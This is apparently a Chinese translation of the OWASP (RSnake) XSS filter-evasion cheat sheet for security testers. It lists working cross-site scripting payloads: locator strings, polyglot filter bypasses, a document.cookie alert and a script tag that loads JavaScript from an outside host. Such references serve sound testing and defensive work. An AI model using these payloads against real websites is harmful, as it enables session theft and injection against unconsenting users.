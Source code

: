 ## 1.介绍

这篇文章的主要目的是给专业安全测试人员提供一份跨站脚本漏洞检测指南。文章的初始内容是由RSnake提供给 OWASP，内容基于他的XSS备忘录:<http://ha.ckers.org/xss.html>。目前这个网页已经重定向到OWASP网站，将由OWASP维护和完善它。OWASP 的第一个防御备忘录项目：XSS (Cross Site Scripting)Prevention Cheat Sheet 灵感来源于 RSnake 的 XSS Cheat Sheet，所以我们对他给予我们的启发表示感谢。我们想要去创建短小简单的参考给开发者以便帮助他们预防 XSS漏洞，而不是简单的告诉他们需要使用复杂的方法构建应用来预防各种千奇百怪的攻击，这也是OWASP 备忘录系列诞生的原因。

## 2.测试

这份备忘录是为那些已经理解XSS攻击，但是想要了解关于绕过过滤器方法之间细微差别的人准备的。

请注意大部分的跨站脚本攻击向量已经在其代码下方给出的浏览器列表中进行测试。

### 2.1.  XSS定位器

在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：

> ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
>
> alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–
>
> \></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

### 2.2.  XSS定位器（短）

如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞

> ”;!–”<XSS>=&{()}

### 2.3.  无过滤绕过

这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：

> <SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>

### 2.4.  利用多语言进行过滤绕过

> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>
>
> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
>
> <script>alert(document.cookie)</script>”>
>
> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
>
> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>

### 2.5.  通过JavaScript命令实现的图片XSS
